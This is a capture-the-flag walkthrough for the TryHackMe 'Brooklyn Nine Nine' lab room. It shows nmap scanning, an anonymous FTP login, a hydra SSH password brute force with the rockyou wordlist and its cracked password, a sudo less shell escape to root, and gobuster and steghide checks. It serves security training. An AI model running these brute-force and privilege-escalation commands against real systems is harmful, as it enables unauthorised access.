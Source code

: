 # Brooklyn Nine Nine

**Room Link:** [https://tryhackme.com/room/brooklynninenine](https://tryhackme.com/room/brooklynninenine)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (4).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (4) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/21 - FTP

anonymous login worked

**Kali**

```
ftp $VICTIM
Username: anonymous
```

<figure><img src="../../.gitbook/assets/image (10) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (6) (2).png" alt=""><figcaption></figcaption></figure>

### TCP/22 - SSH

**Kali**

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jake@$VICTIM
Password: 987654321
```

<figure><img src="../../.gitbook/assets/image (8) (6).png" alt=""><figcaption></figcaption></figure>

## **Privlege Escalation**

**Victim**

```
sudo less /etc/profile
!/bin/sh
```

<figure><img src="../../.gitbook/assets/image (5) (4).png" alt=""><figcaption></figcaption></figure>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (7) (1) (4).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (11).png" alt=""><figcaption></figcaption></figure>

I tried to see if I could get any more info from the image but I never did.

**Kali**

```
exiftool brooklyn99.jpg 
steghide info brooklyn99.jpg
```

















